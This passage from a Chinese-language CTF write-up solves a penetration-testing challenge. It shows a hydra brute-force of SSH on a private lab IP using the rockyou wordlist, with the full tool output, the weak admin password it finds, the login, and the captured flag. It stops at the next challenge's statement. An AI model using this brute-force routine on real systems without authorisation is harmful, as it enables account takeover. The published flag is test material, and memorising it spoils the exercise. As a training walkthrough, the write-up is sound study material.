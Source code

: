 #### 解法
??? 迷失在茫茫資料夾中



## 滲透測試
### [6pts] 滲透測試-01
#### 題目
- 說明：
    - 請挑選此IP範圍(10.100.229.34 - 10.100.229.43)內的任何一台弱點主機，入侵後取得家目錄下的flag檔案。
- 答案格式：
    - flag{找到的flag}

#### 解法
1. 先用 hydya 爆破
    ```
    hydra -l admin -P ~/tool/fuzzdb/wordlists-user-passwd/rockyou.txt -t 50 ssh://10.100.229.34                                       (-127) ↵  16:15:30
    Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-30 16:18:02
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 50 tasks per 1 server, overall 50 tasks, 14344398 login tries (l:1/p:14344398), ~286888 tries per task
    [DATA] attacking ssh://10.100.229.34:22/
    [22][ssh] host: 10.100.229.34   login: admin   password: 123456
    1 of 1 target successfully completed, 1 valid password found
    [WARNING] Writing restore file because 26 final worker threads did not complete until end.
    [ERROR] 26 targets did not resolve or could not be connected
    [ERROR] 50 targets did not complete
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-30 16:18:08
    ```
2. 用 admin/123456 可以成功登入
    ```
    admin@ubuntu:~$ ls
    flag.txt
    admin@ubuntu:~$ cat flag.txt
    cbf7a0ffec715232e38aa5b120994bcc
    ```
3. **flag{cbf7a0ffec715232e38aa5b120994bcc}**

### [10pts] 滲透測試-02
#### 題目
- 說明：
    - 請挑選此IP範圍(10.100.229.34 - 10.100.229.43)內的任何一台弱點主機，入侵後取得root家目錄下的flag檔案
- 答案格式：
    - flag{找到的flag}
 